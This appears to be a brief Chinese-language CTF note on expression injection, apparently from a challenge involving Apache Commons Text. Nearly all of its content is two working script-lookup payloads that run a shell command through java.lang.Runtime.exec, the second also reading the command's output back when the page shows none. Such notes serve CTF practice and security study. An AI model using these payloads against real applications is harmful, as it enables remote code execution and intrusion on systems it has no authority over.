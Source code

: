 # Spel相关CTF

## 遇到没有回显的情况
这里因为做到了一道Apache Common Text相关的题目，其实原理应该差不多

普通测试：
```java
${script:javascript:java.lang.Runtime.getRuntime().exec("ls /")}
```
不回显测试：
```java
${script:js:new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("ls /").getInputStream())).lines().collect(java.util.stream.Collectors.joining(java.lang.System.lineSeparator()))}
```
